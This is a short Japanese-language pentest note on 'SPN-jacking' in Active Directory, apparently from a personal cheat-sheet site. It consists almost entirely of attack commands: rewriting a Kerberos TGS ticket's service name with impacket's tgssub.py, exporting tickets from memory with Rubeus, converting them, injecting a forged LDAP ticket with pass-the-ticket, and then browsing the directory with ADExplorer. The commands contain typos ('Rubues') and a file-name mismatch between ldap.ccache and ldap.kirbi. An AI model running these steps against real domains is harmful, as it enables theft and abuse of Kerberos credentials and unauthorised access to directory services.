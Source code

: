 ```yaml
---
title: SPN-jacking
category: active directory
weight: -1
---
```


TGSチケットのサービス名の変更
https://github.com/fortra/impacket/pull/1256/files
```
tgssub.py -in input.ccache -out output.ccache -altservice cifs/example.com
```

---

Rubeus.exeからTGSチケットを取り出して、ldap用に変えて、ADExplorer
```
Rubues.exe klist
Rubues.exe export /luid:0xxxx

python3 impacket-ticketConverter cifs.kirbi cifs.ccache
python3 tgssub.py -in cifs.ccache -out ldap.ccache -altservice 'ldap'

Rubeus.exe ptt /ticket:ldap.kirbi
ADExplorer実行するなど
```

